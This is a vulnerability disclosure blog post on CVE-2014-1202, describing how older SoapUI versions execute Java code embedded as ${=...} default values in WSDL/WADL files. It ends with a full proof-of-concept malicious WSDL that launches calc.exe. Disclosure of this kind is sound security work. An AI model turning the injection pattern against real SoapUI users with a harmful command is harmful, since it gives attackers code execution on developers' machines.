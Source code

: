 ```yaml
---
layout: post
title: SoapUI Code Execution Vulnerability - CVE-2014-1202
---
```


In this blog post I will discuss a vulnerability I’ve found in the SoapUI product before version 4.6.4 ([CVE-2014-1202](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-1202)).

I discovered this vulnerability during a penetration test in which I saw that the SoapUI software allows the clients to execute a Java code on the local machine by putting a Java code inside the following tag:

  

${=**_JAVA CODE_**};

  
  
The vulnerability allows the attacker to execute the java code on the victim's machine, thereby putting in danger the SoapUI users, including developers, penetration testers, etc.

  

The SoapUI product allows users to open a SOAP / REST project and import  WSDL/WADL files that help the users to communicate with the remote server easily.

WSDL/WADL files are XML-based grammar that define the operations that a web service offers and the format of the request and response messages that the client sends to and receives from the operations.

In WSDL/WADL files, the file owner can determine the default values of some parameters. Thus, an attacker can impersonate a legitimate web service and inject a malicious Java code into a default value of one of the parameters, and spread it to SoapUI clients.

When a SoapUI client will load a malicious WSDL/WADL file to his project in the SoapUI software, and send a request containing the malicious Java code, the SoapUI will execute the malicious Java code on the victim's computer.

  

The attack scenario:

1. An attacker impersonates a regular web service with a malicious WSDL containing the malicious Java code.

2. The victim creates a new project in the SoapUI and loads the malicious WSDL.

3. The victim decides to send a request to the remote server, thus, the SoapUI executes the malicious Java code.

4. The attacker succeeds in executing malicious code in the victim's machine and will take it over.

  

A Proof of Concept (PoC) video can be found at the following link:

[http://www.youtube.com/watch?v=3lCLE64rsc0](http://www.youtube.com/watch?v=3lCLE64rsc0)

An example of a malicious WSDL file can be found at the following link:

```javascript
<!--Malicious WSDL File, SoapUI Code Execution Vulnerability CVE-2014-1202, Barak Tawily-->
<wsdl:definitions targetNamespace="http://example.companyInfo"
 xmlns:tns="http://example.companyInfo"
 xmlns:wsdl="http://schemas.xmlsoap.org/wsdl/"
 xmlns:wsdlsoap="http://schemas.xmlsoap.org/wsdl/soap/"
 xmlns:wsdlmime="http://schemas.xmlsoap.org/wsdl/mime/"
 xmlns:xsd="http://www.w3.org/2001/XMLSchema">

 <wsdl:types>
  <xsd:schema elementFormDefault="qualified"
   targetNamespace="http://example.header">

   <xsd:element name="sampleHeader">
    <xsd:complexType>
     <xsd:all>
      <xsd:element name="priority" type="xsd:int"/>
     </xsd:all>
    </xsd:complexType>
   </xsd:element>
  </xsd:schema>


  <xsd:schema elementFormDefault="qualified"
   targetNamespace="http://example.companyInfo">

   <xsd:element name="Payload_Request">
    <xsd:complexType>
     <xsd:all>
      <xsd:element name="Payload" default="${=Runtime.getRuntime().exec('calc.exe')};" type="xsd:string"/>
     </xsd:all>
    </xsd:complexType>
   </xsd:element>

   <xsd:element name="Payload_RequestResult">
    <xsd:complexType>
     <xsd:all>
      <xsd:element name="result" type="xsd:float"/>
     </xsd:all>
    </xsd:complexType>
   </xsd:element>
  </xsd:schema>
  
  
 </wsdl:types>

 <wsdl:message name="Payload_RequestRequest">
   <wsdl:part name="part1" element="tns:Payload_Request"/>
 </wsdl:message>

 <wsdl:message name="Payload_RequestResponse">
  <wsdl:part name="part1" element="tns:Payload_RequestResult"/>
  <wsdl:part name="part2" type="xsd:string"/>
  <wsdl:part name="part3" type="xsd:base64Binary"/>
 </wsdl:message>

 <wsdl:portType name="CompanyInfo">
  <wsdl:operation name="Payload_Request">
   <wsdl:input message="tns:Payload_RequestRequest"
               name="Payload_RequestRequest"/>
   <wsdl:output message="tns:Payload_RequestResponse"
                name="Payload_RequestResponse"/>
  </wsdl:operation>
 </wsdl:portType>

 <wsdl:binding name="Exploit" type="tns:CompanyInfo">
  <wsdlsoap:binding style="document" transport="http://schemas.xmlsoap.org/soap/http"/>

  <wsdl:operation name="Payload_Request">
   <wsdlsoap:operation soapAction=""/>
   <wsdl:input name="Payload_RequestRequest">
    <wsdlsoap:body use="literal"/>
   </wsdl:input>
   <wsdl:output name="Payload_RequestResponse">
    <wsdlsoap:body use="literal"/>
   </wsdl:output>
  </wsdl:operation>
 </wsdl:binding>

 <wsdl:service name="CompanyInfoService">
  <wsdl:port binding="tns:Exploit" name="SOAPPort">
   <wsdlsoap:address location="http://somewhere/services/CompanyInfoService"/>
  </wsdl:port>
 </wsdl:service>

</wsdl:definitions>
```



